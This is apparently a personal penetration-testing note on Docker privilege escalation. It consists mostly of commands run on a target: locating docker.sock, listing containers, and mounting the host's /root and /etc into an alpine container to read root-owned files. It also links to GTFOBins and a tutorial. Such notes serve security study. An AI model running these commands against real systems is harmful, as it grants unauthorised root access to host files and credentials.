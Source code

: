 ```yaml
---
category: Uncategorized
tags: []
---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```bash - target
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock

---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

```bash - target
id
```

![[Pasted image 20221110090716.png]]

```bash - target
docker ps --all
```

![[Pasted image 20221110090807.png]]

```bash - target
docker run -v /root:/mnt -it alpine
```

```bash - target
docker run -v /etc/:/mnt -it alpine
```

```bash - target
cd /mnt
```

```bash - target
ls
```

